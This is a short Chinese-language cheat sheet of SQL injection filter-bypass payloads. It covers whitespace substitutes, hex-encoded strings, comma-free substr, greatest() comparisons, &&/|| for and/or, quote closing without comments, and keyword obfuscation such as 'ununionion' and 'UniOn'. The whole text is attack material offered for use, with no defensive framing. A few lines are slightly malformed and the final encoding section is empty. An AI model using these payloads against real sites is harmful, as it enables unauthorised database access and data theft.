 ## 過濾繞過
```
//空格
%0a,/**/,()

//引號
用16進制繞過
hex(user)=0x7573657273
selectcolumn_namefrominformation_schema.tableswheretable_name=0x7573657273

//逗號
可以用from for繞過
select substr(database(0from1for1);

//角括號
greatest繞過
greatest(ascii(substr(database(),0,1)),64)=64

//or,and
and=&&  or=||

//注釋符號(#，--)
使用||'閉合
1'union select 1,2,3||'1
最後一位閉合
1'union select 1,2,'3

//等於號
使用<，>來進行判斷

//union，select，where
雙寫
ununionion
截斷
un/**/ion
大小寫
UniOn

//編碼繞過

```